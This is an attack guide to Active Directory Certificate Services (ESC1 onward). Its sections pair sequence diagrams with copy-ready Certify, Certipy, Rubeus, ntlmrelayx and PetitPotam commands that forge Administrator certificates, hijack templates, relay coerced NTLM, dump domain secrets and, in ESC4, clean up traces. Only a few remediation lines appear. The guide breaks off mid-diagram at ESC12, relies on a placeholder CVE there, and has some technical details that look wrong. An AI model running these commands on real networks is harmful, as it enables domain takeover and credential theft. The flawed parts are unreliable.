# AD CS Vulnerabilities (ESC1–16) Complete Attack Guide

Detailed sequence diagrams, attack conditions, and execution commands for every ESC attack.

---

## ESC1: Enrollee-Supplied Subject for Client Authentication

### Attack Conditions

- ✅ The certificate template has **Client Authentication** or **Smart Card Logon** EKU
- ✅ The template has the **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** flag set
- ✅ A low-privileged user has **Enroll** permission
- ✅ Certificate approval is not required (or the attacker holds approval rights)

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as "Attacker (Low-Privileged User)"
    participant Certify as "Certify.exe / Certipy"
    participant T as "Vulnerable Template (ESC1_Template)"
    participant CA as "Certificate Authority (CA01)"
    participant DC as Domain Controller

    Note over A,DC: Prerequisite: Template scan completed

    A->>Certify: Certify.exe find /vulnerable
    Certify->>A: ESC1 vulnerability found:<br/>VulnerableTemplate

    Note over A: Execute attack: impersonate Administrator

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:VulnerableTemplate<br/>/altname:Administrator

    Certify->>T: Build certificate request
    Note over Certify: Subject Alternative Name:<br/>Administrator@corp.local

    Certify->>CA: Certificate enrollment request
    CA->>CA: Check template configuration
    Note over CA: CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT<br/>flag is enabled → SAN specification allowed

    CA->>Certify: Issue Administrator certificate<br/>(PFX format)
    Certify->>A: Save cert.pfx

    Note over A: Use certificate for Kerberos authentication

    A->>Certify: Rubeus.exe asktgt<br/>/user:Administrator<br/>/certificate:cert.pfx<br/>/password:password<br/>/ptt

    Certify->>DC: TGT request<br/>(certificate authentication)
    DC->>DC: Validate certificate
    Note over DC: SAN: Administrator@corp.local<br/>→ Authenticate as Administrator

    DC->>Certify: Issue Administrator TGT
    Certify->>A: Inject TGT into memory (Pass-the-Ticket)

    Note over A: Domain Admin privileges obtained
    A->>DC: Operate as Domain Admin
```

### Attack Commands

**1. Vulnerability Scan (Windows)**

```powershell
# Scan with Certify
.\Certify.exe find /vulnerable

# Detailed check of a specific template
.\Certify.exe find /template:VulnerableTemplate
```

**2. Vulnerability Scan (Linux/Kali)**

```bash
# Scan with Certipy
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable

# Review results with BloodHound
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -bloodhound
```

**3. Certificate Request (Windows)**

```powershell
# Request a certificate for Administrator
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:VulnerableTemplate /altname:Administrator

# Convert the issued certificate to PFX
certutil -decode cert.pem cert.pfx
```

**4. Certificate Request (Linux/Kali)**

```bash
# Request and retrieve certificate in one step
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'

# Output: administrator.pfx
```

**5. Obtain TGT and Authenticate (Windows)**

```powershell
# Obtain TGT with Rubeus
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Verify
klist
whoami
```

**6. Obtain TGT and Authenticate (Linux/Kali)**

```bash
# Obtain TGT with Certipy
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# Output: administrator.ccache (TGT)

# Use TGT
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass corp.local/administrator@dc01.corp.local
```

**7. Obtain NTLM Hash (Optional)**

```bash
# Retrieve NTLM hash using the UnPAC the hash technique
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# Output: Administrator's NTLM hash
# Usable with Pass-the-Hash
```

---

## ESC2: Any Purpose Certificate Template

### Attack Conditions

- ✅ The certificate template has **Any Purpose EKU** (`2.5.29.37.0`), or no EKU is defined
- ✅ A low-privileged user has **Enroll** permission
- ✅ Certificate approval is not required

### Attack Flow

```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant Certify as Certify.exe
    participant T as "Any Purpose Template"
    participant CA as Certificate Authority
    participant DC as Domain Controller

    A->>Certify: Certify.exe find /vulnerable
    Certify->>A: ESC2 detected:<br/>AnyPurposeTemplate<br/>(EKU: Any Purpose)

    Note over A: Any Purpose EKU can be used for all purposes,<br/>including Client Authentication

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:AnyPurposeTemplate<br/>/altname:Administrator

    Note over Certify: SAN can sometimes be specified as in ESC1;<br/>otherwise only your own certificate

    Certify->>CA: Certificate request
    CA->>Certify: Issue Any Purpose EKU certificate

    Note over A: Can be used as Client Authentication

    A->>Certify: Rubeus.exe asktgt<br/>/user:Attacker or Administrator<br/>/certificate:cert.pfx<br/>/ptt

    Certify->>DC: TGT request
    DC->>DC: Check EKU: Any Purpose<br/>→ Valid as Client Authentication
    DC->>Certify: Issue TGT
    Certify->>A: Authentication successful
```

### Attack Commands

**1. Vulnerability Scan**

```bash
# Identify ESC2
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -i "ESC2"
```

**2. Certificate Request (when SAN can be specified)**

```bash
# Request certificate as Administrator
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'AnyPurposeTemplate' -upn 'administrator@corp.local'
```

**3. Certificate Request (when SAN cannot be specified)**

```bash
# Obtain only your own certificate
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'AnyPurposeTemplate'

# Must be combined with another ESC attack
```

---

## ESC3: Enrollment Agent Certificate Template

### Attack Conditions

- ✅ The certificate template has **Certificate Request Agent EKU** (`1.3.6.1.4.1.311.20.2.1`)
- ✅ A low-privileged user has **Enroll** permission
- ✅ Another certificate template allows Enrollment Agent under **Application Policy**
- ✅ Or **Issuance Requirements** imposes no restriction on Enrollment Agent

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant Certify as Certify.exe
    participant EA as "Enrollment Agent Template"
    participant CA as Certificate Authority
    participant CT as "Client Auth Template"
    participant DC as Domain Controller

    Note over A: Phase 1: Obtain Enrollment Agent certificate

    A->>Certify: Certify.exe find /vulnerable
    Certify->>A: ESC3 detected:<br/>EnrollmentAgentTemplate

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:EnrollmentAgentTemplate

    Certify->>CA: Enrollment Agent certificate request
    CA->>Certify: Issue Enrollment Agent certificate<br/>(agent.pfx)

    Note over A: Phase 2: Enroll on behalf of another user

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:User<br/>/onbehalfof:CORP\Administrator<br/>/enrollcert:agent.pfx<br/>/enrollcertpw:password

    Note over Certify: Request Administrator's certificate<br/>on behalf as Enrollment Agent

    Certify->>CT: Request Administrator's certificate
    CT->>CA: On-behalf-of enrollment request
    CA->>CA: Validate Enrollment Agent
    Note over CA: Verify agent.pfx signature<br/>→ Allow on-behalf-of enrollment

    CA->>Certify: Issue Administrator certificate<br/>(admin.pfx)

    Note over A: Phase 3: Authentication

    A->>Certify: Rubeus.exe asktgt<br/>/user:Administrator<br/>/certificate:admin.pfx<br/>/ptt

    Certify->>DC: TGT request
    DC->>Certify: Administrator TGT
    Certify->>A: Domain Admin privileges obtained
```

### Attack Commands

**1. Vulnerability Scan**

```bash
# Identify ESC3
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -A 20 "ESC3"
```

**2. Obtain Enrollment Agent Certificate**

```bash
# Phase 1: Obtain Enrollment Agent certificate
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'EnrollmentAgent'

# Output: john.pfx (Enrollment Agent certificate)
```

**3. Obtain Administrator Certificate via On-Behalf-Of Enrollment**

```bash
# Phase 2: Request Administrator's certificate on behalf
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# Output: administrator.pfx
```

**4. Authentication**

```bash
# Obtain TGT
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100
```

**Windows Execution**

```powershell
# Phase 1
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:EnrollmentAgent

# Phase 2
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:User /onbehalfof:CORP\Administrator /enrollcert:agent.pfx /enrollcertpw:password

# Phase 3
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /ptt
```

---

## ESC4: Template Hijacking

### Attack Conditions

- ✅ The attacker has **WriteProperty** or **WriteDACL** rights on the certificate template
- ✅ The template can be modified to satisfy ESC1 conditions

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant AD as Active Directory
    participant T as "Certificate Template (Before Modification)"
    participant T2 as "Certificate Template (After Modification)"
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over A: Phase 1: Check permissions

    A->>AD: Check Get-Acl
    AD->>A: WriteProperty / WriteDACL rights present

    Note over A: Phase 2: Modify template

    A->>T: Set-ADObject<br/>msPKI-Certificate-Name-Flag<br/>+= CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT

    T->>T2: Apply configuration change
    Note over T2: SAN specification now possible

    A->>T2: Set-ADObject<br/>msPKI-Certificate-Application-Policy<br/>+= Client Authentication

    Note over T2: Client Authentication EKU added

    A->>T2: Set-ADObject<br/>Add-ACE Enroll permission<br/>for Domain Users

    Note over T2: Anyone can now enroll

    Note over A: Phase 3: Execute ESC1 attack

    A->>T2: Certify.exe request<br/>/template:ModifiedTemplate<br/>/altname:Administrator

    T2->>CA: Certificate request
    CA->>A: Issue Administrator certificate

    A->>DC: Rubeus.exe asktgt<br/>/certificate:cert.pfx<br/>/ptt
    DC->>A: Domain Admin TGT

    Note over A: Phase 4: Clean up traces (optional)

    A->>T2: Revert template settings to original
```

### Attack Commands

**1. Check Permissions**

```powershell
# Check permissions with PowerView
Import-Module .\PowerView.ps1
Get-DomainObjectAcl -Identity "VulnerableTemplate" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "WriteProperty|WriteDacl"}
```

**2. Modify Template**

```powershell
# Modify using AD module
Import-Module ActiveDirectory

# Get the template DN
$template = Get-ADObject -Filter {cn -eq "VulnerableTemplate"} -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local"

# Enable SAN specification
Set-ADObject -Identity $template.DistinguishedName -Add @{'msPKI-Certificate-Name-Flag'=1}

# Add Client Authentication EKU
Set-ADObject -Identity $template.DistinguishedName -Replace @{'pKIExtendedKeyUsage'='1.3.6.1.5.5.7.3.2'}
```

**3. Modify from Linux (ldapmodify)**

```bash
# Create LDIF file
cat > modify_template.ldif << EOF
dn: CN=VulnerableTemplate,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local
changetype: modify
replace: msPKI-Certificate-Name-Flag
msPKI-Certificate-Name-Flag: 1
EOF

# Apply changes via LDAP
ldapmodify -x -H ldap://10.10.10.100 -D "cn=john,cn=users,dc=corp,dc=local" -w 'Password123!' -f modify_template.ldif
```

**4. Certificate Request (after modification)**

```bash
# Execute ESC1 attack
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'
```

**5. Clean Up Traces**

```powershell
# Revert to original settings
Set-ADObject -Identity $template.DistinguishedName -Replace @{'msPKI-Certificate-Name-Flag'=0}
```

---

## ESC5: Vulnerable PKI Object Access Control

### Attack Conditions

- ✅ The attacker holds dangerous permissions on the following objects:
    - Certificate templates: **WriteProperty**, **WriteOwner**, **WriteDACL**
    - CA: **ManageCA**, **ManageCertificates**
    - CA computer: **WriteProperty** (dNSHostName, etc.)

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant AD as Active Directory
    participant PKI as PKI Object
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over A: Pattern 1: WriteProperty on template

    A->>AD: Check Get-Acl
    AD->>A: WriteProperty rights present<br/>(certificate template)

    A->>PKI: Modify template as in ESC4
    PKI->>A: Modification complete

    A->>CA: Execute ESC1 attack
    CA->>A: Certificate issued

    Note over A: Pattern 2: ManageCA on CA

    A->>CA: certutil -config "CA01\ca-CA01"<br/>-setreg policy\EditFlags<br/>+EDITF_ATTRIBUTESUBJECTALTNAME2

    Note over CA: Create ESC6 condition

    CA->>A: Configuration change complete

    A->>CA: Execute ESC6 attack
    CA->>A: Certificate issued

    Note over A: Pattern 3: ManageCertificates on CA

    A->>CA: certutil -resubmit [RequestId]
    Note over A: Approve a pending certificate request

    CA->>A: Certificate issued

    A->>DC: Authenticate with certificate
    DC->>A: Issue TGT
```

### Attack Commands

**1. Enumerate Permissions**

```powershell
# Check permissions with Certify
.\Certify.exe find /vulnerable

# Detailed check with PowerView
Get-DomainObjectAcl -Identity "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -ResolveGUIDs
```

**2. Pattern 1: Modify Template (same as ESC4)**

```bash
# Use ESC4 commands
```

**3. Pattern 2: Abuse ManageCA Rights**

```powershell
# Windows: Enable EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

# Restart CA service
Invoke-Command -ComputerName DC01 -ScriptBlock { Restart-Service certsvc }
```

```bash
# Linux: Change settings with Certipy
certipy ca -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -enable-template 'SubCA'
```

**4. Pattern 3: Abuse ManageCertificates Rights**

```powershell
# Review pending requests
certutil -config "DC01\corp-DC01-CA" -view

# Approve a pending request
certutil -config "DC01\corp-DC01-CA" -resubmit [RequestId]

# Retrieve certificate
certutil -config "DC01\corp-DC01-CA" -retrieve [RequestId] cert.cer
```

---

## ESC6: CA Allows SAN Specification via Request Attributes

### Attack Conditions

- ✅ The CA has the **EDITF_ATTRIBUTESUBJECTALTNAME2** flag set
- ✅ A certificate template that low-privileged users can enroll in exists
- ✅ The template has **Client Authentication** EKU (or Any Purpose)

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant Certify as Certify.exe
    participant T as Any Template
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over CA: CA setting:<br/>EDITF_ATTRIBUTESUBJECTALTNAME2 = Enabled

    A->>Certify: Certify.exe find
    Certify->>A: ESC6 detected:<br/>CA allows SAN specification

    Note over A: The template itself is not vulnerable,<br/>but the CA setting makes the attack possible

    A->>Certify: Certify.exe request<br/>/ca:CA01\ca-CA01<br/>/template:User<br/>/altname:Administrator

    Note over Certify: Include SAN in request attributes:<br/>san:upn=Administrator@corp.local

    Certify->>T: Certificate request
    T->>CA: Forward request

    CA->>CA: Check EDITF_ATTRIBUTESUBJECTALTNAME2<br/>flag
    Note over CA: Flag is enabled<br/>→ Read SAN from request attributes

    CA->>CA: Ignore SAN restriction in template

    CA->>Certify: Issue Administrator certificate
    Note over CA: SAN from request attributes takes priority

    Certify->>A: administrator.pfx

    A->>Certify: Rubeus.exe asktgt<br/>/user:Administrator<br/>/certificate:administrator.pfx<br/>/ptt

    Certify->>DC: TGT request
    DC->>Certify: Administrator TGT
    Certify->>A: Domain Admin privileges obtained
```

### Attack Commands

**1. Confirm Vulnerability**

```powershell
# Windows: Check CA settings
certutil -config "DC01\corp-DC01-CA" -getreg policy\EditFlags

# Check if output contains EDITF_ATTRIBUTESUBJECTALTNAME2 (0x40000)
```

```bash
# Linux: Check with Certipy
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -i "ESC6"
```

**2. Certificate Request (Windows)**

```powershell
# Request Administrator's certificate using User template
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:User /altname:Administrator
```

**3. Certificate Request (Linux)**

```bash
# Specify SAN with Certipy
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'User' -upn 'administrator@corp.local'

# Output: administrator.pfx
```

**4. Authentication**

```bash
# Obtain TGT
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100
```

**5. Remediation (Defender)**

```powershell
# Disable EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2

# Restart CA service
Restart-Service certsvc
```

---

## ESC7: Dangerous Permissions on CA

### Attack Conditions

- ✅ The attacker has **ManageCA** rights on the CA
- ✅ Or the attacker has **ManageCertificates** rights

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant CA as Certificate Authority
    participant T as Certificate Template
    participant DC as Domain Controller

    Note over A: Pattern 1: ManageCA rights

    A->>CA: Check rights on CA
    CA->>A: ManageCA rights present

    A->>CA: certutil -setreg policy\EditFlags<br/>+EDITF_ATTRIBUTESUBJECTALTNAME2

    Note over CA: Create ESC6 condition

    CA->>A: Configuration change complete

    A->>CA: Execute ESC6 attack<br/>(request certificate with SAN)
    CA->>A: Issue Administrator certificate

    Note over A: Pattern 2: ManageCertificates rights

    A->>CA: Request certificate with any template
    Note over A: Intentionally fail<br/>(place request in pending state)

    CA->>CA: Hold request in pending state

    A->>CA: certutil -resubmit [RequestId]
    Note over A: Approve own request<br/>using ManageCertificates rights

    CA->>A: Issue certificate

    Note over A: Pattern 3: Enable SubCA template

    A->>CA: certutil -CATemplate +SubCA
    Note over A: Enable SubCA template<br/>using ManageCA rights

    A->>T: Request SubCA certificate
    T->>CA: Forward request
    CA->>CA: Hold request

    A->>CA: certutil -resubmit [RequestId]
    Note over A: ManageCA rights also allow<br/>approving SubCA

    CA->>A: Issue SubCA certificate
    Note over A: With SubCA certificate,<br/>any certificate can be signed

    A->>DC: Authenticate with forged certificate
    DC->>A: Issue TGT
```

### Attack Commands

**1. Check Permissions**

```powershell
# Check CA permissions with Certify
.\Certify.exe find /vulnerable

# Check output for ManageCA / ManageCertificates
```

**2. Pattern 1: Enable ESC6 via ManageCA**

```powershell
# Enable EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -config "DC01\corp-DC01-CA" -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

# Restart CA
Restart-Service certsvc

# Execute ESC6 attack
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:User /altname:Administrator
```

**3. Pattern 2: Approve Requests via ManageCertificates**

```powershell
# Request certificate (cause intentional failure)
.\Certify.exe request /ca:DC01\corp-DC01-CA /template:RequireManagerApproval /altname:Administrator

# Note the Request ID
# Example: Request ID: 1234

# Approve the request
certutil -config "DC01\corp-DC01-CA" -resubmit 1234

# Retrieve certificate
certutil -config "DC01\corp-DC01-CA" -retrieve 1234 admin.cer
```

**4. Pattern 3: SubCA Attack**

```bash
# Linux: Enable and abuse SubCA template with Certipy
certipy ca -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -enable-template 'SubCA'

# Request SubCA certificate
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'SubCA' -upn 'administrator@corp.local'

# If approval is needed after obtaining Request ID,
# approve with ManageCA or ManageCertificates rights
```

---

## ESC8: NTLM Relay to AD CS Web Enrollment

### Attack Conditions

- ✅ AD CS Web Enrollment is running over **HTTP** (unencrypted)
- ✅ NTLM authentication is enabled
- ✅ The attacker can force NTLM authentication from a privileged account such as Domain Admin (Coercion)

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as "Attacker (Relay Server)"
    participant V as "Victim (Domain Admin)"
    participant R as ntlmrelayx
    participant W as "Web Enrollment (HTTP)"
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over A: Preparation: Start relay server

    A->>R: ntlmrelayx.py -t<br/>http://ca01/certsrv/certfnsh.asp<br/>--adcs --template User

    Note over R: Listening for relay to Web Enrollment

    Note over A: Execute coercion attack

    A->>V: Force NTLM authentication via<br/>PetitPotam / PrinterBug

    Note over V: DC01$ or Domain Admin attempts<br/>NTLM authentication to attacker

    V->>R: NTLM authentication attempt<br/>(SMB / HTTP)

    Note over R: Capture NTLM<br/>Challenge-Response

    R->>W: Relay NTLM to Web Enrollment
    Note over R: http://ca01/certsrv/certfnsh.asp

    W->>W: Authenticate as Domain Admin / DC01$
    Note over W: Accept NTLM over HTTP

    R->>W: Certificate request<br/>(User template)
    Note over R: Request Domain Admin's certificate

    W->>CA: Certificate enrollment request
    CA->>W: Issue Domain Admin certificate
    W->>R: Return certificate (PFX)

    R->>A: Save administrator.pfx

    Note over A: Authentication phase

    A->>DC: certipy auth -pfx administrator.pfx
    DC->>A: Domain Admin TGT / NTLM Hash

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**1. Check Web Enrollment**

```bash
# Check if running over HTTP
curl -I http://ca01.corp.local/certsrv/

# If HTTPS, ESC8 is not applicable
```

**2. Set Up ntlmrelayx**

```bash
# Use Impacket's ntlmrelayx
impacket-ntlmrelayx -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs --template User

# Or use DomainController template
impacket-ntlmrelayx -t http://ca01.corp.local/certsrv/certfnsh.asp --adcs --template DomainController
```

**3. Execute Coercion Attack**

```bash
# Force DC's NTLM with PetitPotam
python3 PetitPotam.py -u john -p 'Password123!' -d corp.local 10.10.10.50 10.10.10.100

# 10.10.10.50 = attacker's relay server
# 10.10.10.100 = DC01 (victim)
```

```bash
# Force DC's NTLM with PrinterBug
python3 dementor.py -u john -p 'Password123!' -d corp.local 10.10.10.50 10.10.10.100
```

**4. Retrieve Certificate and Authenticate**

```bash
# ntlmrelayx automatically saves the certificate
# Example output: dc01.pfx

# Authenticate
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.100

# Obtain DC's NTLM hash or TGT
```

**5. Check Defenses**

```powershell
# Check Extended Protection for Authentication (EPA)
Get-WebConfiguration -Filter "system.webServer/security/authentication/windowsAuthentication" -PSPath "IIS:\Sites\Default Web Site\CertSrv"

# If EPA is disabled, ESC8 is possible
```

---

## ESC9: No Security Extension on Certificate Template

### Attack Conditions

- ✅ The certificate template has the **CT_FLAG_NO_SECURITY_EXTENSION** flag set
- ✅ **msPKI-Enrollment-Flag** includes **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT**
- ✅ Weak certificate mapping (UPN mapping) is enabled

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant T as Vulnerable Template
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over T: Conditions:<br/>CT_FLAG_NO_SECURITY_EXTENSION<br/>CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT

    A->>T: Certificate request
    Note over A: SAN UPN:<br/>Administrator@corp.local

    T->>CA: Certificate request

    CA->>CA: Do not generate Security Extension
    Note over CA: CT_FLAG_NO_SECURITY_EXTENSION<br/>→ No szOID_NTDS_CA_SECURITY_EXT

    CA->>A: Issue certificate<br/>(without Security Extension)

    Note over A: SID validation is skipped<br/>because Security Extension is absent

    A->>DC: Authenticate with certificate

    DC->>DC: Check certificate mapping
    Note over DC: CertificateMappingMethods<br/>includes UPN mapping

    DC->>DC: No Security Extension<br/>→ Skip SID validation

    DC->>DC: Authenticate by UPN only
    Note over DC: SAN UPN: Administrator@corp.local<br/>→ Authenticate as Administrator

    DC->>A: Issue Administrator TGT

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**1. Vulnerability Scan**

```bash
# Identify ESC9
certipy find -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -vulnerable -stdout | grep -A 20 "ESC9"
```

**2. Certificate Request**

```bash
# Request certificate with Administrator UPN
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'ESC9Template' -upn 'administrator@corp.local'

# Output: administrator.pfx
```

**3. Authentication**

```bash
# Authenticate using weak mapping
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# Authenticated as Administrator via UPN mapping
```

**4. Check Certificate Mapping Setting (on DC)**

```powershell
# Check via registry
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" -Name "CertificateMappingMethods"

# Check if value includes 0x4 (UPN)
# 0x1 = Subject/Issuer
# 0x2 = Issuer Only
# 0x4 = UPN (weak)
```

---

## ESC10: Weak Certificate Mapping for Schannel Authentication

### Attack Conditions

- ✅ **CertificateMappingMethods** is set to **0x4** (UPN mapping only)
- ✅ The attacker can obtain a certificate with an arbitrary UPN

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over DC: Setting:<br/>CertificateMappingMethods = 0x4<br/>(UPN mapping only)

    Note over A: Obtain arbitrary certificate<br/>(via ESC1/2/3/6 etc.)

    A->>CA: Certificate request
    Note over A: SAN UPN:<br/>Administrator@corp.local

    CA->>A: Issue certificate

    Note over A: Authenticate via Schannel

    A->>DC: PKINIT / Schannel authentication<br/>(present certificate)

    DC->>DC: Process certificate mapping
    Note over DC: CertificateMappingMethods = 0x4<br/>→ Map by UPN only

    DC->>DC: Do not validate SID or Issuer
    Note over DC: Weak mapping

    DC->>DC: UPN: Administrator@corp.local<br/>→ Look up Administrator account

    DC->>A: Authentication successful as Administrator

    A->>DC: TGT request
    DC->>A: Issue Administrator TGT

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**1. Check Certificate Mapping Setting**

```powershell
# Check DC registry
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" /v CertificateMappingMethods

# If 0x4 (UPN), ESC10 is possible
```

**2. Obtain Certificate (using another ESC)**

```bash
# Obtain Administrator's certificate with ESC1 etc.
certipy req -u john@corp.local -p 'Password123!' -dc-ip 10.10.10.100 -ca 'corp-DC01-CA' -template 'VulnerableTemplate' -upn 'administrator@corp.local'
```

**3. Authentication**

```bash
# Authenticate with weak mapping
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.100

# Mapped by UPN only, authenticated as Administrator
```

**4. Remediation (Defender)**

```powershell
# Enforce strong certificate mapping
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" -Name "CertificateMappingMethods" -Value 0x3

# 0x1 = Subject/Issuer (strong)
# 0x2 = Issuer Only (strong)
# 0x3 = Subject/Issuer + Issuer Only (recommended)

# Or enable StrongCertificateBindingEnforcement
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" -Name "StrongCertificateBindingEnforcement" -Value 2
```

---

## ESC11: NTLM Relay to AD CS RPC Interface

### Attack Conditions

- ✅ The AD CS **RPC interface** (ICertPassage) accepts NTLM authentication
- ✅ The attacker can force NTLM authentication from a privileged account such as Domain Admin

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as "Attacker (Relay Server)"
    participant V as "Victim (Domain Admin)"
    participant R as ntlmrelayx
    participant RPC as "AD CS RPC (ICertPassage)"
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over A: Preparation: Start RPC relay server

    A->>R: ntlmrelayx.py -t rpc://ca01.corp.local<br/>--adcs --template User

    Note over R: Listening for relay to ICertPassage RPC

    Note over A: Execute coercion attack

    A->>V: Force NTLM authentication via PetitPotam

    V->>R: NTLM authentication attempt

    Note over R: Capture NTLM<br/>Challenge-Response

    R->>RPC: Relay NTLM to RPC Interface
    Note over R: ICertPassage RPC<br/>(via port 135/593)

    RPC->>RPC: Authenticate as Domain Admin
    Note over RPC: NTLM authentication successful

    R->>RPC: Certificate request<br/>(via RPC)
    Note over R: Call CertServerRequest method

    RPC->>CA: Certificate enrollment request
    CA->>RPC: Issue Domain Admin certificate
    RPC->>R: Return certificate (PFX)

    R->>A: Save administrator.pfx

    Note over A: Authentication phase

    A->>DC: certipy auth -pfx administrator.pfx
    DC->>A: Domain Admin TGT

    Note over A: Domain Admin privileges obtained
```

### Attack Commands

**1. Set Up ntlmrelayx (RPC Mode)**

```bash
# Target RPC Interface with Impacket's ntlmrelayx
impacket-ntlmrelayx -t rpc://ca01.corp.local -rpc-mode TSCH -smb2support --adcs --template User

# Or use Certipy's relay feature
certipy relay -ca ca01.corp.local
```

**2. Execute Coercion Attack**

```bash
# Force DC's NTLM with PetitPotam
python3 PetitPotam.py -u john -p 'Password123!' -d corp.local 10.10.10.50 10.10.10.100

# 10.10.10.50 = attacker's relay server
# 10.10.10.100 = DC01
```

**3. Retrieve Certificate and Authenticate**

```bash
# Certificate is automatically obtained when relay succeeds
# Output: dc01.pfx

# Authenticate
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.100
```

**4. Defenses**

```powershell
# Disable NTLM authentication over RPC (GPO)
# Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options
# "Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers" = "Deny all"

# Or enable EPA (Extended Protection for Authentication)
```

---

## ESC12: YubiHSM2 Vulnerability

### Attack Conditions

- ✅ AD CS uses a **YubiHSM2** hardware security module
- ✅ A known vulnerability exists in YubiHSM2 (specific firmware version)
- ✅ The attacker has access to the HSM

### Attack Flow


```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker
    participant HSM as YubiHSM2
    participant CA as Certificate Authority
    participant DC as Domain Controller

    Note over HSM: YubiHSM2 has a vulnerability<br/>(e.g., CVE-XXXX-XXXX)

    A->>HSM: Vulnerability scan
    HSM->>A: Vulnerable firmware detected

    Note over A: Execute exploit

    A->>HSM: YubiHSM2 Exploit<br/>(Firmware vulnerability)

